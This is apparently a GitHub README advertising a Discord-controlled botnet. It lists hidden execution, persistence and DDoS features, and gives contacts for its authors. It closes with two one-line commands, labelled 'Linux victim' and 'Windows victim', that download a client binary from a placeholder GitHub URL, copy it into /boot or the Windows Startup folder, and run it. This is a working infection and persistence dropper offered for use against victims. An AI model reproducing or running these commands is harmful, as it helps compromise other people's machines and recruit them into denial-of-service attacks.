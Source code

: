 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/202854669-6d08daef-eae2-438b-a354-78b8accb7cb5.png) - https://discord.gg/vCdPTjD6rZ

# Credits:
Orig - batu.sh#9675

TG @udbnt

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Commands
![image](https://user-images.githubusercontent.com/104208624/202915584-8783ef8b-edaa-47ea-9034-83ff74c26af9.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; apt-get install python3 -y; curl -O LClient "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 LClient; cp LClient /boot; ./LClient

# Windows victim
cd %temp% & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile WClient.exe & copy WClient.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & WClient.exe
